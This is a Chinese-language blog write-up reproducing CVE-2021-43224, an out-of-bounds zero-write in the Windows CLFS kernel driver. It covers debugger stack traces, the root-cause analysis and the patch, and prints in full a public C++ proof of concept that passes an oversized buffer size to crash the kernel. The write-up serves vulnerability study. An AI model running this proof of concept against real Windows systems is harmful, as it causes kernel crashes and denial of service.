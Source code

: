 ```yaml
---
title: 'CVE-2021-43224 漏洞复现'
date: 2022-09-13 11:01:03
category: CVE
tags: [windows kernel]
published: true
hideInList: false
feature: 
isTop: false
---
```


## 环境

```
虚拟机：Win10 1903 18362.30
物理机：Win10
debugger：windbg preview
compiler：vs2022
```

环境我就直接使用的，`Win10 1903`

## 漏洞分析

我调试漏洞的时候，用了三个`clfs.sys`：`Win10 1903`上的`2019.03.19`的`clfs.sys`，和两个`MSRC`上下载的`win8.1`的`patch`前后的`2021.09.18`、`2021.11.16`的`clfs.sys`（其中`win8.1`的`clfs.sys`并不能获取其`pdb`）

我在调试该漏洞时，直接使用了该[POC](https://github.com/KaLendsi/CVE-2021-43224-POC)，先跑了一次，发现其`crash`的地方为`CClfsLogFcbVirtual::QueryLogFileInfo`，在该处下断点，发现当出现下述的调用链时，会发生`crash`，或者说在`POC`的最后一次`system("pause")`之后的`CClfsLogFcbVirtual::QueryLogFileInfo`就会`crash`

```
0: kd> kb
 # RetAddr               : Args to Child                                                           : Call Site
00 fffff804`2b3817fd     : 00000000`00000002 ffffbb84`d1efbe00 ffffbb84`d04ed480 00000000`00000000 : CLFS!CClfsLogFcbVirtual::QueryLogFileInfo
01 fffff804`2b36508b     : ffffbb84`d04ed480 00000000`00000110 ffffbb84`d3a33d30 ffffbb84`ce0a0600 : CLFS!CClfsRequest::LogFileInfo+0x149
02 fffff804`2b364e37     : ffffbb84`d04ed480 00007ffd`60c43380 ffffbb84`ceb07d80 ffff9480`00293b42 : CLFS!CClfsRequest::Dispatch+0xb7
03 fffff804`2b364d87     : ffffbb84`d1efbe00 ffffbb84`d1efbe00 00000000`00000001 00000000`00000000 : CLFS!ClfsDispatchIoRequest+0x87
04 fffff804`2a4ddda9     : ffffbb84`d1efbe00 00000000`00000001 00000000`00000001 00000000`0000020c : CLFS!CClfsDriver::LogIoDispatch+0x27
05 fffff804`2aacbdd5     : ffffcf04`d196bb80 ffffbb84`d1efbe00 00000000`00000001 ffffbb84`d3a33d30 : nt!IofCallDriver+0x59
06 fffff804`2aacb72a     : ffffbb84`d1efbe00 ffffcf04`d196bb80 00000000`80076818 ffffcf04`d196bb80 : nt!IopSynchronousServiceTail+0x1a5
07 fffff804`2aacb146     : 00007ffd`60c43380 00000000`00000000 00000000`00000000 00000000`00000000 : nt!IopXxxControlFile+0x5ca
08 fffff804`2a683e95     : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : nt!NtDeviceIoControlFile+0x56
09 00007ffd`6765c144     : 00007ffd`653f57b7 00000000`00000000 00000000`00000100 00000197`00000001 : nt!KiSystemServiceCopyEnd+0x25
0a 00007ffd`653f57b7     : 00000000`00000000 00000000`00000100 00000197`00000001 00000000`00000003 : ntdll!NtDeviceIoControlFile+0x14
0b 00000000`00000000     : 00000000`00000100 00000197`00000001 00000000`00000003 00000093`bdcff9a0 : 0x00007ffd`653f57b7
```

其漏洞原因也很简单，如下图所示，其漏洞为，在间接调用时，调用`CClfsLogFcbPhysical::QueryLogFileInfo`时，会对于该参数进行`memset(src, 0, *a7)`的操作，而`*a7`就是我们输入`size`大小，而`src`的大小为`0x78`，因此就会造成越界写零

![CClfsLogFcbVirtual::QueryLogFileInfo](/img/CVE-2021-43224/CClfsLogFcbVirtual.png)

![CClfsLogFcbPhysical::QueryLogFileInfo](/img/CVE-2021-43224/CClfsLogFcbPhysical.png)

调用`CClfsLogFcbPhysical::QueryLogFileInfo`之前的`CClfsLogFcbVirtual::QueryLogFileInfo`的栈帧如下

```
    CLFS!CClfsLogFcbVirtual::QueryLogFileInfo:
fffff807`05759070 4053             push    rbx
fffff807`05759072 56               push    rsi
fffff807`05759073 57               push    rdi
fffff807`05759074 4154             push    r12
fffff807`05759076 4155             push    r13
fffff807`05759078 4156             push    r14
fffff807`0575907a 4157             push    r15
fffff807`0575907c 4881ecf0000000   sub     rsp, 0F0h
fffff807`05759083 488b05a63fffff   mov     rax, qword ptr [CLFS!__security_cookie (fffff8070574d030)]
fffff807`0575908a 4833c4           xor     rax, rsp
fffff807`0575908d 48898424e0000000 mov     qword ptr [rsp+0E0h], rax
1: kd> dq rsp rsp+0x128
fffff986`f0d95570  00000000`00000000 00000000`00000000
fffff986`f0d95580  00000000`00000000 00000000`00000000
fffff986`f0d95590  00000000`00000000 00000000`00000000
fffff986`f0d955a0  00000000`00000000 00000000`00000000
fffff986`f0d955b0  00000000`00000000 00000000`00000000
fffff986`f0d955c0  00000000`00000000 00000000`00000000
fffff986`f0d955d0  00000000`00000000 00000000`00000000
fffff986`f0d955e0  00000000`00000000 00000000`00000000
fffff986`f0d955f0  00000000`00000000 00000000`00000000
fffff986`f0d95600  00000000`00000001 fffff807`048e3b07
fffff986`f0d95610  ffff8687`0795ba58 00000000`00000000
fffff986`f0d95620  00000000`00000000 00000000`00000002
fffff986`f0d95630  00000000`00000000 fffff807`0575907c
fffff986`f0d95640  00000000`00000010 00000000`00040301
fffff986`f0d95650  fffff986`f0d95660 00000000`00000018
fffff986`f0d95660  ffff8687`047d1c01 ffff8687`06b70c70   <= ffff8687`047d1c01 canary
fffff986`f0d95670  00000000`00000001 00000000`00000000
fffff986`f0d95680  ffff8687`02f39a80 ffff8687`06b70b00
fffff986`f0d95690  00000000`00000000 fffff807`057817fd   <= fffff807`057817fd ret addr
fffff986`f0d956a0  00000000`00000002 ffff8687`06b70b00
fffff986`f0d956b0  ffff8687`02f39a80 00000000`00000000
fffff986`f0d956c0  00000000`00000004 ffff8687`02ca08c0
fffff986`f0d956d0  fffff986`f0d95738 00000000`00000160
fffff986`f0d956e0  00000000`00000001 ffff8687`02ca08c8
```

调用`CClfsLogFcbPhysical::QueryLogFileInfo`之后的`CClfsLogFcbVirtual::QueryLogFileInfo`的栈帧如下，其`canary`和`ret addr`都被覆盖了

```
after call CClfsLogFcbPhysical::QueryLogFileInfo
1: kd> dq fffff986`f0d955d0 fffff986`f0d955d0+0x118
fffff986`f0d955d0  00000000`00000000 00000000`00000000
fffff986`f0d955e0  00000000`00000000 00000000`00010000
fffff986`f0d955f0  00000000`00000000 00000000`00000000
fffff986`f0d95600  00000000`00000002 00000200`00009c40
fffff986`f0d95610  00000000`00000000 00000000`00000000
fffff986`f0d95620  00000000`00000000 00000000`00000000
fffff986`f0d95630  ffffffff`00000000 11ed2ea7`221ace71
fffff986`f0d95640  a32f0e59`6c04c9a3 00000000`00000000
fffff986`f0d95650  00000000`00000000 00000000`00000000
fffff986`f0d95660  00000000`00000000 00000000`00000000
fffff986`f0d95670  00000000`00000000 00000000`00000000
fffff986`f0d95680  00000000`00000000 00000000`00000000
fffff986`f0d95690  00000000`00000000 00000000`00000000
fffff986`f0d956a0  00000000`00000000 00000000`00000000
fffff986`f0d956b0  00000000`00000000 00000000`00000000
fffff986`f0d956c0  00000000`00000000 00000000`00000000
fffff986`f0d956d0  00000000`00000000 00000000`00000000
fffff986`f0d956e0  00000000`00000001 ffff8687`02ca08c8
```

## POC

我直接用的这个[POC](https://github.com/KaLendsi/CVE-2021-43224-POC)，所以上述调试的时候，`0x110`就是来自于此，刚好可以覆盖到返回值

```cpp
#include <Windows.h>
#include <wchar.h>
#include <iostream>
#include <clfsw32.h>
#include <Clfsmgmtw32.h>
#pragma comment(lib, "clfsw32.lib")

int main() {


	wchar_t szLogPath[] = L"LOG:C:\\Users\\Public\\MyLog::Stream1";

	//wchar_t szLogPath[] = L"??\\LOG:\\HarddiskVolume0\\MyLog";

	//wchar_t szLogPath[] = L"LOG:\\\\?\\GLOBALROOT\\Device\\HarddiskVolume0\\Users\\Public\\MysssLog";

	//\\\\?\\GLOBALROOT\\Device\\HarddiskVolume0

	//SECURITY_ATTRIBUTES psaLogFile = {};


	HANDLE   hLog = CreateLogFile(szLogPath, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, NULL);

	if (INVALID_HANDLE_VALUE == hLog)
	{
		printf("error=%d\n", GetLastError());

		return 1;
	}

	if (!RegisterManageableLogClient(hLog, 0))
		printf("error=%d\n", GetLastError());


	printf("hLog=%p\n", hLog);

	CLFS_INFORMATION pinfoBuffer = {};


	//ULONG infoSize = sizeof(pinfoBuffer);

	ULONG infoSize = 0x110;

	system("pause");
	DWORD dwRet = GetLogFileInformation(hLog, &pinfoBuffer, &infoSize);



	if (dwRet == NULL)
	{
		printf("error=%d\n", GetLastError());

		return 1;
	}

	printf("dwRet=%08x\n", dwRet);

	return 0;
}
```

## patch

我分析`patch`的时候，是直接用的`2021.09.18`、`2021.11.16`的`clfs.sys`，可能因为是`win8.1`的，所以没`pdb`，直接防止输入的大小大于`0x78`

![patch](/img/CVE-2021-43224/patch.png)

## 该POC的整个流程

后续，看了一下，用户态的接口是如何和内核态的驱动调用联系上的

```
clfsw32!CreateLogFile -> ntdll!NtCreateFile
clfsw32!RegisterManageableLogClient -> KERNELBASE!DeviceIoControl -> ntdll!NtDeviceIoControlFile
clfsw32!GetLogFileInformation -> KERNELBASE!DeviceIoControl -> ntdll!NtDeviceIoControlFile
```

## 总结

整个漏洞不是很复杂，漏洞的危害也只能达到`BSOD`，不确定间接跳转是否能跳转到其他的地方，还需要继续分析

## 参考

> https://github.com/KaLendsi/CVE-2021-43224-POC